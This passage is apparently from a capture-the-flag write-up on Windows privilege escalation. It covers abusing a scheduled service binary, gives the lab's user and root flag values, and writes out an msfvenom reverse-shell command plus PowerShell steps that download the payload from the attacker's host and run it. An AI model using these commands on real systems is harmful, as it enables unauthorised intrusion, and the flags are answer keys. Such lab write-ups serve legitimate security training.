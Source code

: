 2. LogsFile.txt and LogFileAdvanced.txt show us nothing, but ``type 20198415519.INI_LOG.txt`` we see 

```shell
06/22/22 01:02:33,Process Ended. PID:996,ExitCode:4,Message.exe (Administrator)
06/22/22 01:03:01,Event Started Ok, (Administrator)
```

**Using this abnormal service, escalate your privileges!**

Few things I can do. schtasks or replace message.exe with another reverse shell

- replacing message.exe gives administrator access.

**What is the user flag (on Jeffs Desktop)?**

- 759bd8af507517bcfaede78a21a73e39

**What is the root flag?**

- 7e13d97f05f7ceb9881a3eb3d78d3e72 c:\Users\Administrator\Desktop>type root.txt

* * * 

## Task 5 - Privilege Escalation Without Metasploit 

In this task we will escalate our privileges without the use of meterpreter/metasploit! 

Firstly, we will pivot from our netcat session that we have established, to a more stable reverse shell.

Once we have established this we will use winPEAS to enumerate the system for potential vulnerabilities, before using this information to escalate to Administrator.

![0xskar](/assets/winpeas.png)

##   Answer the questions below

**Now we can generate a more stable shell using msfvenom, instead of using a meterpreter, This time let's set our payload to windows/shell_reverse_tcp**

- ``msfvenom -p windows/shell_reverse_tcp LHOST=10.x.x.x LPORT=6666 -f exe -o reverse_privesc.exe``

After generating our payload we need to pull this onto the box using powershell.

Tip: It's common to find C:\Windows\Temp is world writable!

1. setup webserver ``python3 -m http.server``
2. powershell over to target ``powershell -c "Invoke-WebRequest -Uri '10.x.x.x:8000/reverse_privesc.exe' -OutFile 'C:\Windows\Temp\shell.exe'"``
3. run our shell ``shell.exe``
